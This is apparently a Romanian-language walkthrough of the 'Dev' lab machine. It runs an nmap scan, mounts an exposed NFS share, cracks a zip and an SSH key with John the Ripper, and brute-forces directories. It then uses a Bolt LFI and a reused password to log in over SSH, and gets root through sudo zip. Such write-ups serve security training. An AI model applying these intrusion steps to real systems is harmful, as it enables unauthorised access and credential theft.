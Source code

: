 # Dev - walkthrough
Să începem cu scanarea porturilor deschise pentru o reprezentare mai clara pentru mașina data:
```
nmap -sS -A -T4 --min-rate 1500 -p- 192.168.64.138
```
```
22/tcp    open  ssh      OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 bd:96:ec:08:2f:b1:ea:06:ca:fc:46:8a:7e:8a:e3:55 (RSA)
|   256 56:32:3b:9f:48:2d:e0:7e:1b:df:20:f8:03:60:56:5e (ECDSA)
|_  256 95:dd:20:ee:6f:01:b6:e1:43:2e:3c:f4:38:03:5b:36 (ED25519)
80/tcp    open  http     Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Bolt - Installation error
111/tcp   open  rpcbind  2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      42805/tcp   mountd
|   100005  1,2,3      48144/udp6  mountd
|   100005  1,2,3      53181/udp   mountd
|   100005  1,2,3      56255/tcp6  mountd
|   100021  1,3,4      34389/tcp   nlockmgr
|   100021  1,3,4      35047/tcp6  nlockmgr
|   100021  1,3,4      36698/udp   nlockmgr
|   100021  1,3,4      45998/udp6  nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
2049/tcp  open  nfs      3-4 (RPC #100003)
8080/tcp  open  http     Apache httpd 2.4.38 ((Debian))
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-title: PHP 7.3.27-1~deb10u1 - phpinfo()
|_http-server-header: Apache/2.4.38 (Debian)
34389/tcp open  nlockmgr 1-4 (RPC #100021)
35407/tcp open  mountd   1-3 (RPC #100005)
42805/tcp open  mountd   1-3 (RPC #100005)
45233/tcp open  mountd   1-3 (RPC #100005)
```
### Serviciul nfs
Observăm ca avem acest serviciul activm să verificam ce directoarea sunt disponibile pentru montare:
```
showmount -e 192.168.64.138
```
```
Export list for 192.168.64.138:
/srv/nfs 172.16.0.0/12,10.0.0.0/8,192.168.0.0/16
```
Montăm acest directoriul la noi:
```
mount -t nfs 192.168.64.138:/srv/nfs /tmp/nfs_share_dir
```
Avem un fișier care are denumirea de `save.zip` în cazul în care încercăm săl dezarhivăm ne cere parola:
Putem so spargem cu utilita `zip2john` care ne trasformat fișierul în hash și pe urma cu atacul de metotă bruta încearcă săl spargă:
```
zip2john save.zip > save.zip.hash
```
Atacul de tip brute force:
```
john save.zip.hash
```
```
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
Proceeding with incremental:ASCII
java101          (save.zip)
```
În urmare avem 2 fișiere noi `id_rsa` și `todo.txt` conținutul la `todo.txt` este mai jos:
```
- Figure out how to install the main website properly, the config file seems correct...
- Update development website
- Keep coding in Java because it's awesome
jp
```
Aici avem și fișierul `id_rsa` pentru connectarea la distănță fără a știe parola:
### Serviciul HTTP
Să verificăm ce directoare sunt ascunse pe paginele noastre web primul este portul 8080:
```
[19:32:06] Starting:                                                                                                                                                       
[19:32:08] 403 -  281B  - /.htaccess.bak1                                   
[19:32:08] 403 -  281B  - /.htaccess.orig                                   
[19:32:08] 403 -  281B  - /.ht_wsr.txt
[19:32:08] 403 -  281B  - /.htaccess.save                                   
[19:32:08] 403 -  281B  - /.htaccess_extra
[19:32:08] 403 -  281B  - /.htaccess_orig
[19:32:08] 403 -  281B  - /.htaccess_sc                                     
[19:32:08] 403 -  281B  - /.htaccessOLD2                                    
[19:32:08] 403 -  281B  - /.htm                                             
[19:32:08] 403 -  281B  - /.htaccessOLD
[19:32:08] 403 -  281B  - /.htpasswds                                       
[19:32:08] 403 -  281B  - /.htaccess.sample
[19:32:08] 403 -  281B  - /.htaccessBAK
[19:32:08] 403 -  281B  - /.htpasswd_test                                   
[19:32:08] 403 -  281B  - /.httr-oauth                                      
[19:32:08] 403 -  281B  - /.html                                            
[19:32:08] 403 -  281B  - /.php                                             
[19:32:17] 301 -  321B  - /dev  ->  http://192.168.64.138:8080/dev/         
[19:32:18] 200 -    2KB - /dev/                                             
[19:32:32] 403 -  281B  - /server-status                                    
[19:32:32] 403 -  281B  - /server-status/  
```
Directoriul care ascuns este `/dev` să verificăm ce ascunde acesta:
```
[19:34:26] 301 -  328B  - /dev/config  ->  http://192.168.64.138:8080/dev/config/
[19:34:26] 200 -  411B  - /dev/config/                                      
[19:34:28] 200 -    1KB - /dev/favicon.ico                                  
[19:34:28] 301 -  327B  - /dev/files  ->  http://192.168.64.138:8080/dev/files/
[19:34:28] 200 -  411B  - /dev/files/                                       
[19:34:28] 301 -  327B  - /dev/forms  ->  http://192.168.64.138:8080/dev/forms/
[19:34:32] 301 -  327B  - /dev/pages  ->  http://192.168.64.138:8080/dev/pages/
[19:34:32] 200 -  530B  - /dev/pages/ 
```
Un directoriul care captează interesul este `/pages/` unde sunt salvate credințialile pentru `admin` acum trebuie să ne logăm ca acest user:

![alt text](image/Dev_admin_password.png)

De fapt aici este o vulnerabilitate de tip LFI care ne permite să citim fișierile care sunt pe mașina. Acest lucru ne permite să vedem ce utilizatori sunt înregistrați. Instrucțiunea este mai jos:
https://www.exploit-db.com/exploits/48411

![alt text](image/Dev_get_correct_user.png)

Utilizatorul care este înteresant poate fii `jeanpaul` să verificăm daca putem să ne logom cum cheile private:
```
ssh -i id_rsa jeanpaul@192.168.64.138
Enter passphrase for key 'id_rsa': 
jeanpaul@192.168.64.138's password: 
```
Avem nevoie de password pentru a ne loga dar în ajutor vine același `ssh2john` care transformă cheile private în hash(de fapt acest lucru este de presos):
```
ssh2john id_rsa > id_rsa.hash
```
```
john id_rsa.hash
```
Nici un rezultat dar ne aducem aminte de credințialele care au mai fost utilizate anterior și încercăm `I_love_java` și avem succes, acces pe mașină:
![alt text](image/Dev_get_user.png)

Cu comanda `sudo -l` vedem că avem aces să rulăm comanda `zip` cu privilegi de root în ajutor vine `gtfobins` cu instrucțiunea de mai jos:
https://gtfobins.github.io/gtfobins/zip/#sudo

![alt text](image/Dev_get_root.png)

Am primit root :)